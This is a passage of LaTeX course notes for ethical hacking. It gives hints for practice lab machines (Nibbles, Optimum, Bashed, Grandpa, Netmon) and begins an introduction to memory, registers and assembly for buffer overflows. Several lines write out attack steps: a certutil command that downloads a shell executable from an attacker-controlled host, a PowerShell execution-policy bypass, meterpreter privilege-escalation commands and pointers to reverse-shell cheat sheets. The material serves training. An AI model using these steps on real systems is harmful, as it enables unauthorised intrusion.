    
    \tt{certutil -urlcache -f http://<your IP>/exeshell.exe <filename>}
    \item Execute it on the victim machine by typing \tt{sh.exe}
\end{itemize}
\pagebreak


\begin{figure}[h]
    \centering
    \includegraphics[width=0.9\textwidth]{images/base64burp.png}
    \caption{The Base 64-encoded credentials passed when accessing the Tomcat panel}
\end{figure}
\begin{figure}[h]
    \centering
    \includegraphics[width=0.9\textwidth]{images/certutil-trickery.png}
    \caption{The setup and execution of the meterpreter shell transfer onto the victim machine.}
    \vspace{-4cm}
\end{figure}
\pagebreak

\begin{center}
\subsection{Nibbles}
\end{center}

{\bfseries SSH (Port 22)}

Yet again, the SSH port. Though there is rarely remote code execution vulnerabilities with SSH, make sure of it yourself before you move on. Begin to recognize what version numbers are considered modern.
\\
\\
{\bfseries HTTP (Port 80)}

The welcoming HTTP port is here as well. Inspect Element on the site will be your friend, try to see if you can find out a location that has more inside of it. After getting there, would it be a good idea to {\bfseries directory bust}? Is there a page you have to brute force or guess the login to be able to do more?
\\
\\
Analyse the services on the page like usual. Are there any libraries or web modules that have known remote code execution opportunities? What features could be abused?
\\
\\
{\bfseries Post-exploitation}

\begin{itemize}
    \item (Meterpreter) \tt{shell}: Places you into the default shell of the machine.
    \item (Bash) \tt{uname -a}: More detailed system information.
    \begin{itemize}
        \item Knowing this information, think about how you could use a search engine to search for {\bfseries privilege escalation} scripts.
    \end{itemize}
    \item (Bash) \tt{chmod +x <filepath>}: Makes a file executable under normal permissions.
    \begin{itemize}
        \item Useful when making script files...
    \end{itemize}
    \item LinEnum script: \url{https://github.com/rebootuser/LinEnum}
    \begin{itemize}
        \item Remember to execute shell scripts with \tt{./<script>}
    \end{itemize}
    \item LinuxPrivChecker script: \url{https://github.com/linted/linuxprivchecker}
    \begin{itemize}
        \item Most Linux installations -- especially mainstream ones such as Ubuntu -- will have Python pre-installed.
    \end{itemize}
    \item (Bash) \tt{sudo -l}: Lists the allowed commands/directories where a user has root privileges.
    \begin{itemize}
        \item Hint: This may be important to try out for this machine.
    \end{itemize}
    \item (Bash) \tt{bash -i}: Launches an interactive Bash shell.
    \begin{itemize}
        \item When first placed into a machine shell, it may not be a fully personalised shell such as Bash.
    \end{itemize}
\end{itemize}
\pagebreak

\begin{center}
{\bfseries Optimum}
\end{center}

{\bfseries HTTP (Port 80)}

Just Port 80 this time around, so study it closely. Remember the different techniques related to web pen-testing, and try them all out.
\\
\\
What service is running on the port? What is its version? Does it have a history of exploits or remote code executions?
\\
\\
Remember that there may be multiple ways to launch an exploit, some requiring more setup than others. Try out the manual ones first; you can always come back to the more automated ones later.
\\
\\
{\bfseries Post-exploitation}

\begin{itemize}
    \item (Meterpreter) \tt{sysinfo}: List out victim machine system details, e.g. the OS.
    \item (Meterpreter) \tt{background}: {Store the current section in the background.}
    \item \href{https://www.fuzzysecurity.com/tutorials/16.html}{FuzzySecurity Privilege Escalation Guide}
    \begin{itemize}
        \item The "bible" for Windows privilege escalation
    \end{itemize}
    \item Confirming the OS version is valuable information when exploiting a machine. Use a search engine to look for more direct, specific priv-esc methods for the specific system.
    \begin{itemize}
        \item Sometimes, a manual exploit that you find may have an associated Metasploit module, even if it doesn't appear in the search results.
    \end{itemize}
    \item \href{https://github.com/rasta-mouse/Sherlock}{Sherlock by rasta-mouse} (priv-esc scanning in Windows PowerShell)
    \begin{itemize}
        \item Example usage (note the Powershell syntax):
        
        \tt{powershell.exe -exec bypass -Command "\& \{Import-Module .\textbackslash Sherlock.ps1;}
        
        \tt{Find-AllVulns\}"}
    \end{itemize}
    \item Don't forget tools from before, such as \tt{SimpleHTTPServer} and \tt{certutil}.
    \item \href{https://github.com/rasta-mouse/Sherlock/blob/master/Sherlock.ps1}{Windows-Exploit-Suggester by AonCyberLabs}
    \begin{itemize}
        \item an \tt{[E]} in the output of this script indicates a likely exploit, and often includes a direct link to the exploit itself.
    \end{itemize}
    \item Don't forget to compile with \tt{gcc} if your exploit is in the C language. 
    \begin{itemize}
        \item If you don't want to install the required modules, check to see if a \textit{binary} exploit download (e.g. a \tt{.exe} file) is available on the post. These are faster and require you to simply run it on the victim.
    \end{itemize}
\end{itemize}
\pagebreak

\begin{center}
{\bfseries Bashed}
\end{center}

{\bfseries HTTP (Port 80)}

Take a look around, do the usual enumeration strategy when finding port 80. Look into the technology that is running on the port this time around.
\\
\\
Is the shell that you find on the website fully interactive? How could you grant yourself a real shell to run commands such as \tt{sudo}? Think about the payloads that we've made before, or maybe try a premade one from Google that fits the techonology the HTTP service runs on.
\\
\\
Privilege escalation is key. Once you are able to get an interactive shell (preferably /bin/bash), look below for pointers on where to go/
\\
\\
{\bfseries Post-exploitation}
\begin{itemize}
    \item \tt {\textbackslash bin\textbackslash bash}: launch a \tt{bash} shell.
    \item \tt{sudo -l}: List user permissions on the machine.
    \item \tt{sudo -u <username> <command> }: run a command as another user.
    \begin{itemize}
        \item Hint: What would happen if you combined the above commands?
    \end{itemize}
    \item Take advantage of \tt{ls -lah}, it lists all files along with their owner. Are there any directories that one of the users specifically owns and can write to? What is inside?
    \item Reverse Shell cheat sheets: If there are files that contain program instructions, there is likely code for the language that produces a reverse shell.
    \begin{itemize}
        \item The website \href{http://pentestmonkey.net/}{PentestMonkey} may be of use.
    \end{itemize}
\end{itemize}
\pagebreak

\begin{center}
    {\bfseries Grandpa}
\end{center}

{\bfseries HTTP (Port 80)}:

Nothing too special here. Go through the usual routine and you should be able to quickly pop a shell. If a metasploit module is too simple, there are a few manual downloads that can provide a similar result.
\\
\\
Take this opportunity to see if you remember the steps to priv-esc on Windows.
\\
\\
{\bfseries Post-exploitation}

\begin{itemize}
    \item (Meterpreter) \tt{background}: Store the current shell session in the background.
    \item (Windows CMD/Powershell) \tt{certutil -urlcache -f <local HTTP server>/<malicious file> <destination filename>}
    \item (Meterpreter) \tt{getsystem}: Attempt very simple priv esc methods. Usually not too successful, but may work on outdated machines and their services.
\end{itemize}

\begin{center}
{\bfseries Netmon}
\end{center}

{\bfseries FTP (Port 21)}:

\textit{Finally}, a little more action. See if you can recall how to enumerate FTP from previous machines! 
\\
\\
Hint: Just like in Bash, FTP can also show hidden files with \tt{ls -la}. Don't give up if a directory isn't there with just \tt{ls}!
Also, don't forget to download files with \tt{get <FILE>}.
\\
\\
{\bfseries HTTP (Port 80)}:

What can you access through the web service? Are there any default credentials? Make sure to enumerate the service version as well. Also... is the HTTP service connected to FTP in any way? 
\\
\\
Maybe there's useful credentials stored somewhere by the HTTP service... don't be afraid to use a search engine and read some documentation. FTP is your friend here\footnote[2]{Found a promising credential that didn't work? Try changing it slightly, possibly by modifying the year...}.
\\
\\
{\bfseries SMB-related ports (135, 139, 445)}:

Don't forget about \tt{smbcleint -L <IP>}. It may not give you share access, but it's worth checking.
\\
\\
{\bfseries Exploitation / Post-exploitation}

\begin{itemize}
    \item Does your exploit require a cookie? Using Burpsuite, the first intercepted HTTP traffic should present it for you to copy-paste.
    \item Your exploit will most likely create a new administrator user on the remote machine. Try using \href{https://github.com/SecureAuthCorp/impacket}{impacket} instead of Metasploit for getting the shell after running the exploit!
\end{itemize}
\pagebreak

\begin{figure}[h]
    \centering
    \includegraphics[width=1\textwidth]{images/pipimpacket-new.png}
    \caption{Impacket installation through \tt{pip}}
\end{figure}

\begin{figure}[h]
    \centering
    \includegraphics[width=1\textwidth]{images/psexec-impacket-new.png}
    \caption{Logging into the remote machine with impacket's \tt{psexec.py}}
\end{figure}

\vspace{3cm}
\par\noindent\rule{\textwidth}{0.4pt}
\begin{center}
    And just like that, the {\bfseries Mid-course Capstone} is done!
\par\noindent\rule{\textwidth}{0.4pt}
\end{center}
\pagebreak


\section{Intro to Exploit Development}

\begin{figure}[h]
    \centering
    \includegraphics[width=0.3\textwidth]{images/ramstick.jpg}
    \caption{An 8GB stick of RAM}
    \label{fig:ramstick}
\end{figure}

Most of us are likely familiar with computer RAM. Although you may not know precisely how it works, you likely understand that it speeds up your computer by allowing for more processes to ran and managed at once.
\newline
\newline
As we get into buffer overflows, it will be our goal to exploit the memory held in RAM. To do so, we will do a quick overview of computer memory.

\subsection{Computer Memory}

We all know by now that computers -- at the most basic level -- run by readning series of 1s and 0s. Knowing this, how can it be possible for the computer to keep track of processes, values, and operations?
\begin{figure}[h]
    \centering
    \includegraphics[width=0.2\textwidth]{images/transistor.jpg}
    \caption{A MOSFET transistor, about the length of a US dime}
\end{figure}
\newline
\newline
Simply put: Lots, and lots of layers of abstraction. Starting from straightforward technology such as transistors and logic gates, to high-level structures such as multiplexers, we slowly start to build our way up onto the hardware components such as RAM, CPUs, GPUs, etc.
\newline
\newline
Though this section mainly focuses on the inner workings of memory, only a full understanding of computers will let you appreciate the almost magical aspects of the technology we use on a daily basis\footnote[2]{See next page for learning resources}.

\newpage

\begin{figure}[h]
    \centering
    \includegraphics[width=0.35\textwidth]{images/small_transistors.jpeg}
    \caption{Transistor layout on a relatively modern computer chip. To truly emphasize this technological feat, these are over {\bfseries 10 million} times smaller than the one on the previous page.}
\end{figure}

{\bfseries Learning resources:}
\begin{itemize}
    \item Computer Science Crash Course series - \url{https://www.youtube.com/playlist?list=PLH2l6uzC4UEW0s7-KewFLBC1D0l6XRfye}
    \item MAKE Presents: The Transistor - \url{https://youtu.be/-td7YT-Pums}
    \item How Computer Memory Works (Computerphile) - \url{https://www.youtube.com/watch?v=XETZoRYdtkw}
\end{itemize}
\vspace{0.2cm}

As said before, memory -- specifically, at {\bfseries RAM} and {\bfseries CPU} level -- is what we will be focusing on here. For the time being, familiarize yourself with the following terms:

\begin{itemize}
    \item {\bfseries Stack}: A region of computer memory that holds temporary variables and information from a \textit{function call}. It is managed automatically by a program.
    \item {\bfseries Heap}: A larger, more loose region of computer memory that is freely accessible by a user and the code the program they write, fully dependent on them to release any memory allocated to it. Unlike the stack, the heap is \textit{not} managed automatically by programs.
    \item {\bfseries Registers}: Memory addresses located in the CPU, pointing to memory addresses in RAM.
    \begin{itemize}
        \item ESP: The \textit{Stack Pointer}. Keeps track of the location at which a stack frame\footnote[2]{A section of memory currently being used in the stack.} ends.
        \item EBP: The \textit{Base Pointer}. Keeps track of the location of a start of a function.
        \item EIP: The \textit{Instruction Pointer}. Tells the program the location of the instruction which to run next.
    \end{itemize}
\end{itemize}

\begin{figure}[h]
    \centering
    \includegraphics[width=0.2\textwidth]{images/microscope_chip.jpg}
    \caption{Transistors on a computer chip, viewed at a nanometer scale under a microscope}
\end{figure}

\newpage

\subsection{Assembly}

\begin{figure}[h]
    \centering
    \includegraphics[width=0.4\textwidth]{images/assembly.png}
    \caption{A standard "Hello World" program written in Assembly language}
\end{figure}

Let's say you write a program in a language such as Python\footnote[2]{Fun fact: Python was written in C, which tells you a lot about how far-off it is from the "guts" of the computer.}. From the previous section, it should be no secret that your computer doesn't care about the pretty, English-looking syntax that the language is written it... At least not directly.
\newline
\newline
So far, we have the individual 1s and 0s produced by electrical currents running through transistors -- the stuff the computer directly reads. At the opposite end of the spectrum, we have a high-level language like Python that is distanced almost completely from those aspects, making complex tasks relatively simple at the expense of manual memory management.
\newline
\begin{center}
So what's in between these two ends? In short, {\bfseries Assembly language}.
\end{center}
\vspace{0.5cm}
While still technically a program language, assembly is special in that it is built to correspond 1:1 to the actual \textit{binary} instructions that a computer follows. That is to say, for every assembly instruction, there is exactly one instruction that is then executed on the machine\footnotetext[1]{As opposed to an instruction in high-level languages, that may form many, many different machine instructions from just one of its instructions.}
\newline
\newline
{\bfseries Circling Back}:

OK, now take a moment to recall the terms discussed in the previous page...

\begin{itemize}
    \item {\bfseries Stack}
    \item {\bfseries Heap}
    \item {\bfseries Registers} (\textit{ESP}, \textit{EBP}, and \textit{EIP})
\end{itemize}

The great thing about assembly is that modifying these registers is \textit{extremely} direct. E.g.

\tt{mov EIP, <memory address>} (moves a certain memory address into the instruction pointer)
\newline
\newline
Now, take a moment to read that assembly example again. Knowing what we know as ethical hackers, isn't there some kind of significance in being able to tell the EIP to read whatever section of memory we want?...

\newpage

\subsection{The goal of a Buffer Overflow}

\begin{figure}[h]
    \centering
    \includegraphics[width=0.7\textwidth]{images/stackanatomy.png}
    \caption{The anatomy of the Stack}
\end{figure}


\end{document}
